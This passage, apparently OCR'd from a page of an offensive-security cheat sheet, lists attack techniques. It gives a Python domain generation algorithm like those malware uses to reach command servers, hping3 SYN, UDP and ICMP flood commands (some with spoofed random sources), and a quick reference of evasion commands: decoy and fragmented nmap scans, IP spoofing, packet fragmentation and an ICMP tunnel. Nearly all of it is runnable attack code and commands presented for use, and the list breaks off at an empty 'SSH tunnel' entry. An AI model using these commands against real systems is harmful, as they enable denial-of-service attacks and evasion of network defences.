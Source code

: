 
## 25. Domain Generation Algorithm - Custom Python

```python
#!/usr/bin/env python3
import hashlib
import datetime

def generate_domains(count=100):
    seed = datetime.date.today().strftime("%Y%m%d")
    domains = []
    
    for i in range(count):
        data = f"{seed}-{i}".encode()
        hash_obj = hashlib.md5(data)
        domain = hash_obj.hexdigest()[:12] + ".com"
        domains.append(domain)
    
    return domains

# Generate today's domains
dga_domains = generate_domains()
for domain in dga_domains[:10]:  # Print first 10
    print(domain)
```

---

## 26. Flooding - Hping3

```bash
# TCP SYN flood
hping3 -S -p 80 --flood target.com

# UDP flood with random data
hping3 -2 --flood --rand-source target.com

# ICMP flood
hping3 -1 --flood target.com

# Connection flood (different ports)
hping3 -S -p ++1 --flood target.com
```

---

## Quick Command Reference

### Most Common Evasion Commands:

```bash
# Stealth scan
nmap -sS -f -D RND:10 target.com

# IP spoofing
hping3 -a fake_ip -S target.com -p 80

# Fragmentation
echo "ip_frag 8" | fragroute target.com

# ICMP tunnel
ptunnel -p proxy_server -lp 8000 -da target -dp 22

# SSH tunnel
```